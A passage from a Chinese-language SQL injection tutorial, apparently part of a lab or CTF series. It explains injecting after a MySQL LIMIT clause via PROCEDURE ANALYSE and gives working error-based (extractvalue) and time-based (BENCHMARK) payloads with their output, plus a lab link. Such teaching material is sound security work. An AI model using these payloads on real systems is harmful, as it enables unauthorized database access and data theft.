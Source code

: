 ```
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]] 
```

limit 关键字后面还可跟`PROCEDURE`和 `INTO`两个关键字，但是 INTO 后面写入文件需要知道绝对路径以及写入shell的权限，因此利用比较难，因此这里以`PROCEDURE`为例进行注入。

【**使用 `PROCEDURE`函数进行注入**】

ANALYSE支持两个参数，首先尝试一下默认两个参数：

```
mysql> select id from users order by id desc limit 0,1 procedure analyse(1,1);
ERROR 1386 (HY000): Can't use ORDER clause with this procedure 
```

报错，尝试一下对其中一个参数进行注入，这里首先尝试报错注入:

```
mysql> select id from users order by id desc limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53' 
```

成功爆出 mysql 版本信息，证明如果存在报错回显的话，可以使用报错注入在limit后面进行注入。

不存在回显怎么办，延迟注入呀！执行命令：

```
select id from users order by id limit 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(if(mid(version(),1,1) like 5, BENCHMARK(5000000,SHA1(1)),1))))),1) 
```

如果 select version(); 第一个为5，则多次执行sha(1)达到延迟效果。这里使用 sleep 进行尝试，但均未成功，所以需要使用BENCHMARK进行替代。

## 结合报错注入

【第4题】[通关地址](http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1)
